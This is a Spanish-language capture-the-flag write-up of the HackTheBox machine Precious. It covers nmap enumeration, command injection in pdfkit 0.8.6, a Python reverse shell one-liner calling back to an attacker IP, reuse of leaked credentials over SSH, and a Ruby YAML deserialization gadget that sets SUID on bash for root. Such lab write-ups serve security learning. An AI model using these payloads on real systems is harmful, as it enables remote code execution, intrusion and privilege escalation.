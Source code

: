 ```yaml
---
layout: post
title: HackTheBox - Precious
author: c4rta
date: 2023-01-02
##categories: [Maquinas, HackTheBox]
tags: [HTB, Command injection, YAML deserialization]
image: /assets/img/precious/waifu.png
---
```

Para la intrusion tenemos que la web genera PDFs usando pdfkit con una version vulnerable a Command Injection, la cual conduce a un RCE, para la escalada haremos un ataque YAML deserialization
{:.lead}

## Enumeracion

Iniciamos con un escaneo de nmap con el comando:

```
nmap -sS -n -Pn --open -p- 10.10.11.189
```
El cual le estamos diciendo que con:

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si esta abierto

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Esto nos reportara 2 puertos abiertos:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Asi que ahora escanearemos para saber la version y servicio que esta corriendo por detras:

```
sudo nmap -sCV -p22,80 10.10.11.189
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Tenemos el puerto de SSH abierto, pero aun no podemos hacer mucha cosa, y el puerto 80, el cual de primeras nos dice que podemos convertir una pagina web a un pdf: ```http-title: Convert Web Page to PDF```

Si nos dirigimos a la pagina web, podemos ver que esta esperando por una URL, asi que para comprobar que se puede convertir a PDF, iniciaremos un servidor web con python:

```python3 -m http.server 8080```

Y le pasaremos la URL

![](/assets/img/precious/precious1.png)

Y efecto, convierte la pagina a un pdf, y me muestra el contenido de mi directorio /Desktop

![](/assets/img/precious/precious2.png)

En este punto, una buena idea es ver un poco de los metadatos del pdf, usaremos la herramienta ```exiftools``` (aun que por alguna razon no me jala, asi que usare esta [web](https://exif.tools/))

Y podemos ver que para generarlo esta usando pdfkit:

![](/assets/img/precious/precious3.png)

## Command Injection

La version de pdfkit que genero el pdf es la ```v0.8.6```, asi que... Nunca es mala idea buscar si existe un exploit para la version de algo.

Econtre que esa version de vulnerable a ```Command injection``` a travez del parametro ```name``` 

Lee [aqui](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) si quieres saber mas

Asi que intentare ejecutar el comando ```whoami``` para ver si funciona:

```
http://10.10.14.102:8080/?name=%20`whoami`
```

![](/assets/img/precious/precious4.png)

Y una vez sabiendo que si funciona, por lo tanto tenemos Remote Command Execution(RCE), nos mandaremos una reverse shell con python3:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Y la URL queda:

```
http://10.10.14.102:8080/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
Recuerda editar la IP por la que te dio HTB

## Flag de user

Al lista el contenido podemos ver varios directorios:

```bash
ruby@precious:~$ ls -lha
ls -lha
total 28K
drwxr-xr-x 4 ruby ruby 4.0K Apr 10 16:46 .
drwxr-xr-x 4 root root 4.0K Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3.5K Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4.0K Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4.0K Apr 10 16:46 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Navegando un poco, encontre que en el directorio ```.bundle``` hay un archivo de configuracion el cual tiene unas credenciales:

```bash
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Y recordemos que tenemos el puerto del SSH abierto, asi que nos conectaremos por ssh con las credenciales que nos aparecen ahi.

usuario: henry

contraseña: Q3c1AqGHtoI0aXAYFH

Y ahora si ya podemos ver la flag de user:

```bash
henry@precious:~$ cat user.txt 
8cee1d827eb735217879ec75ce6d2751
```

## Flag de root

Primeramente ingresare el comando ```sudo -l``` para poder ver que podemos ejecutar como root desde el usuario ```henry```

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Nos dice que podemos ejecutar el archivo ```update_dependencies.rb```

Asi que vamos a pasar a ver el contenido del archivo:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Me doy cuenta que esta intentando cargar un archivo que se llama ```dependencies.yml```, el cual no se le esta indicando la ruta, es decir, que lo trata de cargar desde el directorio actual donde se encuentra el usuario, entonces... ¿Por que no crearlo?, y ademas esta usando la funcion ```YAML.load()``` la cual es vulnerable a un ataque```YAML deserialization``` el cual deriva de un RCE, para saber como explotarlo nos guiaremos de [aqui](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

Crearemos un archivo yml con el nombre ```dependencies.yml``` en el directorio actual, con el contenido:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Donde le estamos diciendo que ejecute el comando ```chmod +s /bin/bash``` que le asigna permisos SUID a /bin/bash

Y por ultimo ejecutamos el archivo:

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Y ya somos root:

```bash
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
95ff0867c3156b05a0f2d49fc6b1ba48
```

Eso ha sido todo, gracias por leer ❤